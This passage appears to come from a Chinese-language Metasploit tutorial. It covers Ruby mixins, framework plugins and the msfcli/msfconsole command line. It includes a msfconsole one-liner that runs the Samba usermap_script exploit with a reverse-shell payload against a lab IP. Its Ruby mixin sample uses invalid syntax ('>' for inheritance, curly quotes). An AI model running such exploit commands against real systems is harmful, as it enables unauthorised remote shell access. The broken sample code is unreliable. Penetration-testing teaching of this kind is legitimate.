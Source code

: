 ```
Mixins can change behavior.
- The Scanner mixin overloads run()
- Scanner changes run() for run_host() and run_range()
- It calls these in parallel based on the THREADS setting
- The BruteForce mixin is similar

```
class MyParent
     def woof
          puts “woof!”
     end
end

class MyClass > MyParent
end

object = MyClass.new
object.woof() => “woof!”

================================================================

module MyMixin
     def woof
          puts “hijacked the woof method!”
     end
end

class MyBetterClass > MyClass
     include MyMixin
end
```

##### Metasploit Plugins

插件类似API一样在工作。

- They manipulate the framework as a whole
- Plugins hook into the event subsystem
- They automate specific tasks that would be tedious to do manually

Plugins only work in the msfconsole.
- Plugins can add new console commands
- They extend the overall Framework functionality

## 2 MSF 基础

### 2.1 MSFcli

msfcli 为MSF提供了一个强力的命令行接口，它允许简单的加入metasploit 渗透模块到任何你生成的脚本中。

![requirements_msf](images/12/requirements_msf.png)


如果项快速进入某个渗透工具，使用它的方法是```-x```选项，例如：

```
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
   set RHOST 172.16.194.172; \
   set PAYLOAD cmd/unix/reverse; \
   set LHOST 172.16.194.163; \
   run"
```

可以使用下列方法获得帮助：
```
root@kali:~# msfcli -h